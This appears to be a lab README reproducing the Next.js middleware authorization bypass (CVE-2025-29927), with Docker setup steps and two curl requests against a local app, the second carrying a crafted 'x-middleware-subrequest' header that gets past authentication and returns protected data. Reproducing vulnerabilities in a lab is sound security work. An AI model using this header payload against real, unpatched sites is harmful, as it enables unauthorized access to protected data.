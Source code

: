 # Next.js Middleware Authorization Bypass Vulnerability (CVE-2025-29927)

Next.js is a web application framework based on React. It provides features like server-side rendering, static site generation, routing system, and API routes. When Next.js is configured to use middleware for authentication, attackers can exploit a vulnerability to bypass authentication.

## Starting the Environment

Execute the following command, then visit `http://ip:3000`:

```
docker compose up --build
```

### Manual Setup

Run the following command:

```bash
npm install
```

Start the application:

```bash
npm run build
npm start
```

Visit http://ip:3000

## Reproducing the Vulnerability

Directly accessing the protected API:

```
curl -i http://localhost:3000/api/protected/data
HTTP/1.1 307 Temporary Redirect
location: /unauthorized
Date: Sat, 22 Mar 2025 19:39:36 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

/unauthorized#
```

Run the following command to reproduce the vulnerability:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/api/protected/data
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
ETag: "8s59pt2il13l"
Content-Length: 175
Vary: Accept-Encoding
Date: Sat, 22 Mar 2025 19:41:09 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"message":"Successfully retrieved sensitive data","sensitiveData":"This is some sensitive data that should be protected","userId":12345,"adminAccess":true,"timestamp":"2025-03-22T19:41:09.957Z"}#
